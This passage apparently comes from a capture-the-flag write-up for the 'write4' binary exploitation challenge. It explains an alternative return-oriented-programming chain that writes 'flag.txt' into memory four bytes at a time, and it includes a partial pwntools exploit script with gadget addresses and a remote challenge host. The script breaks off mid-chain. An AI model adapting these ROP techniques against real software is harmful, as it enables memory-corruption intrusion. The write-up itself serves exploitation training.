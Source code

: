 This would ensure that our string is null-terminated, and that our code works.
{% endhint %}

## Alternative Solution

_This is the solution I mentioned earlier_. This solution uses the following gadget:

```nasm
0x0000000000400629 : mov dword ptr [rsi], edi ; ret
```

This means we need to control `rsi` and `edi`. We'll use the following gadgets to do this:

```nasm
0x0000000000400691 : pop rsi ; pop r15 ; ret
0x0000000000400693 : pop rdi ; ret
```

Notice that our gadget pops `rdi`, but uses `edi` to move into memory. This means that we can only move `4` bytes at a time (since `edi` is the lower four bytes of `rdi`). From here, our chain would do the following:

* Align the stack
* Move _flag_ into `addr` (the address we write to)
* Move _.txt_ into `addr+4`
* Move a null byte into `addr+8`
* Call `print_file` with `addr` as the argument

This is a bit more complicated, but it works just as well. Note that we use `b'C' * 0x8` as a junk variable. I chose this for debugging purposes because it differentiates from the padding. We use `v_junk` to populate `r15` every time we use the `pop rsi` gadget.

Here is that exploit:

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

elf = context.binary = ELF('./write4')
libc = ELF('./libwrite4.so')
proc = remote('vunrotc.cole-ellis.com', 5400)

# functions
f_printfile = 0x400510

# variables and addresses
v_junk = 0x4343434343434343
a_writeLocation = 0x601030	    # write location to build "flag.txt"

# gadgets
g_writeEdiAtRsi = 0x400629	    # mov dword ptr [rsi], edi; ret;
g_popRdi = 0x400693		    # pop rdi; ret;
g_popRsiR15 = 0x400691 		    # pop rsi; pop r15; ret;
g_ret = 0x400589                    # ret;

padding = b'A' * 40
ropChain = b''

# align the stack
ropChain += p64(g_ret)

# write flag to string
ropChain += p64(g_popRsiR15)
ropChain += p64(a_writeLocation);
ropChain += p64(v_junk);
ropChain += p64(g_popRdi);
ropChain += b'flagAAAA'
ropChain += p64(g_writeEdiAtRsi);
```